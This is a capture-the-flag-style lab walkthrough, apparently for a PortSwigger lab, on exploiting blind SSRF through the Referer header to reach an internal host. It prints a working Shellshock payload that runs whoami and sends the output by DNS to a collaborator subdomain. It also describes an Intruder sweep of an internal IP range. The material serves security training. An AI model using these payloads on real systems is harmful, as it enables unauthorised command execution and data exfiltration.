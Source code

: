 Simply using out-of-band techniques to identify blind SSRFs doesn't in itself provide a route to exploitability. Since you cannot view the response from the backend request the behavior can't be used to exploit what's inside the target system. However, it can still be used to probe for other vulnerabilities in the target system, for example:
- Blindly sweep the internal IP address space
- Send payloads designed to detect well-known vulnerabilities; wherein if the payloads employ blind out-of-band techniques, it can uncover a critical vulnerability on an unpatched server

Another way to exploit blind SSRF is to induce the application to connect to a server under the attacker's control, and return a malicious response to the HTTP client that makes the connection. If the attacker can exploit serious vulnerability in the server's HTTP implementation, it might lead to a remote code execution.

1. In [Burp Suite Professional](https://portswigger.net/burp/pro), install the "Collaborator Everywhere" extension from the BApp Store.
2. Add the domain of the lab to Burp Suite's [target scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope), so that Collaborator Everywhere will target it.
3. Browse the site.
4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
5. Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
6. Send the request to the product page to Burp Intruder.
7. Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:
    `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`
8. Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
9. Click "Clear §", change the Referer header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number `1`), click "Add §".
10. Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
11. Click "Start attack".
12. When the attack is finished, go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind [SSRF attack](https://portswigger.net/web-security/ssrf). The name of the OS user should appear within the DNS subdomain.
13. To complete the lab, enter the name of the OS user.
## Additional Resources
- [Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient)